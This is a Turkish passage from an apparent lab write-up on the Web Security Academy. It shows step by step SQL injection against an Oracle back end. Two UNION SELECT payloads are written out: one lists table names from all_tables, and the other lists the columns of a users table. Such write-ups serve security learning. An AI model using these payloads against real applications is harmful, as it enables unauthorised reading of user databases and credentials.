 Daha sonra tablo isimlerini getiriyoruz. Buradaki tablo isimlerini kontrol ettiğimizde kullanıcılarla ilgili olan tablonun “**USERS_XEDOYY**” olduğunu görmekteyiz.

```python
mdisec' UNION SELECT table_name,null FROM all_tables --
```

![Untitled](Web-Security-0x0A-Web-Security-Academy'den-Devam-E-5d98a1205cb7439db45c8e0570ab118e/Untitled-29.png)

Şimdi de bu tablodan veri çekmeliyiz. Bunun için de bu şekilde ilerleyebiliriz. Burada da kolon isimlerini elde etmekteyiz.

```python
mdisec' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_XEDOYY'--
```
